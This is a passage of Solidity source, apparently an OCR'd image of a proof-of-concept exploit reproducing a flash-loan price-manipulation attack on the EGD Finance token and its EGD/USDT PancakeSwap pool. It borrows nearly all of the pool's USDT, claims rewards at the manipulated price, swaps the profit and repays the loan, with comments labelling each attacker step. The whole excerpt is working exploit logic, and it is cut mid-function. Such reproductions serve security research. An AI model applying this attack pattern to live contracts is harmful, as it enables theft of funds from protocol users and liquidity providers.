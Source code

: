 │             borrow2 = IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) * 9_999_999_925 / 10_000_000_000; // Attacker borrow 99.99999925% USDT of EGD_USDT_LPPool reserve                                                                             │
│             EGD_USDT_LPPool.swap(0, borrow2, address(this), "00");                                                                                                                                                                                   │
│             console.log("Flashloan[2] payback success");                                                                                                                                                                                             │
│                                                                                                                                                                                                                                                      │
│             // Swap all egd -> usdt                                                                                                                                                                                                                  │
│             console.log("Swap the profit...");                                                                                                                                                                                                       │
│             address[] memory path = new address[](2);                                                                                                                                                                                                │
│             path[0] = egd;                                                                                                                                                                                                                           │
│             path[1] = usdt;                                                                                                                                                                                                                          │
│             IERC20(egd).approve(address(pancakeRouter), type(uint256).max);                                                                                                                                                                          │
│             pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                     │
│                 IERC20(egd).balanceOf(address(this)), 1, path, address(this), block.timestamp                                                                                                                                                        │
│             );                                                                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│             bool suc = IERC20(usdt).transfer(address(USDT_WBNB_LPPool), 2010 * 10e18); // Attacker payback 2,010 USDT (w/ 0.5% fee)                                                                                                                  │
│             require(suc, "Flashloan[1] payback failed");                                                                                                                                                                                             │
│         } else {                                                                                                                                                                                                                                     │
│             console.log("Flashloan[2] received");                                                                                                                                                                                                    │
│             emit log_named_decimal_uint("[INFO] EGD/USDT Price after price manipulation", IEGD_Finance(EGD_Finance).getEGDPrice(), 18);                                                                                                              │
│             // -----------------------------------------------------------------                                                                                                                                                                     │
│             console.log("Claim all EGD Token reward from EGD Finance contract");                                                                                                                                                                     │